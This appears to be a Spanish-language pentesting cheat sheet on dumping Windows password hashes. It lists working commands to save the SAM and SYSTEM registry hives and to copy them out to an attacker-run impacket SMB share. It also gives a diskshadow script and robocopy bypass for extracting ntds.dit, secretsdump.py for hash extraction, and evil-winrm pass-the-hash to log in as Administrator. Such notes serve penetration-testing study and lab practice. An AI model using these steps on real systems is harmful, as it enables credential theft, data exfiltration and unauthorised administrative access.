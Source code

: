 ** Dumpear registros SAM y SYSTEM.**
Registros usados por el sistema, por lo que no pueden ser modificados.
SAM es una base de datos que guarda las contraseñas hasheadas de los usuarios. Sirve para autenticar usuarios remotos.
En base a Active Directory, este archivo se encuentra en %SystemRoot%/System32/config/SAM y es montado en HKLM/SAM (HKEY_LOCAL_MACHINE/SAM)
SYSTEM contiene información sobre el sistema Windows, FileSystem, etc.
>Pasos para dumpear los hashes
>Copiar los archivos SAM y SYSTEM en el sistema Windows
>`reg save HKLM\SAM SAM.backup`
>`reg save HKLM\SYSTEM SYSTEM.backup`
>Habilitar servidor Samba en máquina local
>`impacket-smbserver smbFolder $(pwd)`
>Si da fallos el servidor samba en Windows 10, habilitar soporte para smb2
>`impacket-smbserver smbFolder $(pwd) -smb2support`
>Transferir archivos desde Windows a máquina local
>`copy SAM.backup \\<own_ip>\smbFolder\SAM`
>`copy SYSTEM.backup \\<own_ip>\smbFolder\SYSTEM`
>En máquina local, utilizar la herramienta pwdump para visualizar estos registros. Visualizará los hashes.
>`pwdump SYSTEM SAM`

** Dumpear hashes gracias al ntds.dit **
> Copiar SYSTEM en la máquina objetivo --> `reg save HKLM\SYSTEM system`
> Crear fichero data en local:
``` data
set content persistent nowriters 
add volume c: alias pwned 
create 
expose %pwned% z: 
```
> Se debe poner un espacio al final de cada línea para que funcione correctamente.
> Subir data al equipo objetivo.
> Extraer NTDS.DIT con Diskshadow -->
```
diskshadow.exe /s data
copy z:\windows\ntds\ntds.dit C:\Users\SVC_Backup\Desktop\backup\ntds.dit
```
> Bypassear si el comando copy no funciona:
> `robocopy /b z:\windows\ntds . ntds.dit`
> Descargar tanto el fichero system como ntds.dit a la máquina local.
> Si estamos en una sesión con evil-winrm, podemos usar los comandos upload/download.
> En local, dumpear los hashes del ntds.dit con secretsdump.py
> `python secretsdump.py -system system -ntds ntds.dit LOCAL`
> Con los hashes obtenidos se puede comprobar a obtener una shell con evil-winrm como un usuario con mayores privilegios.
> `evil-winrm -i 10.10.10.92 -u 'Administrator' -H '<hash_NT_admin>'`


